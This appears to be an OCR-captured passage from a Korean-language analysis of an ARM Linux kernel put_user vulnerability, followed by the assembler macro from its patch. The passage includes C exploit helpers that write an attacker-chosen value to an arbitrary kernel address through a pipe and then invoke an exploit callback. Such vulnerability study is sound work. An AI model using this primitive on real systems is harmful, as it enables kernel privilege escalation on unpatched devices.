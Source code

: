 ```c
  }

  close(pfd[0]);
  close(pfd[1]);

  return i == sizeof (data);
}

bool
put_user_write_value_at_address(unsigned long address, int value)
{
  return pipe_write_value_at_address(address, value);
}

bool
put_user_run_exploit(unsigned long int address, int value,
                 bool(*exploit_callback)(void* user_data), void *user_data)
{
  if (!put_user_write_value_at_address(address, value)) {
    return false;
  }

  return exploit_callback(user_data);
}
```

 Data 쓰기의 경우 파이프를 이용한다. 파이프 생성 이후 `ioctl()`을 통해 주소 검증이 없는 특정 플랫폼의 경우 특정 주소에 읽기가 직접적으로 가능하다.

# 4. Patch for the vulnerability

 기존 commit을 바탕으로 변경 사항 추적을 해보았다.

```assembly
// File: /arch/arm/include/asm/assembler.h
// ...

\name:
	.asciz "\string"
	.size \name , . - \name
	.endm

	.macro check_uaccess, addr:req, size:req, limit:req, tmp:req, bad:req
#ifndef CONFIG_CPU_USE_DOMAINS
	adds	\tmp, \addr, #\size - 1
	sbcccs	\tmp, \tmp, \limit
	bcs	\bad
#endif
	.endm

#endif /* __ASM_ASSEMBLER_H__ */
```

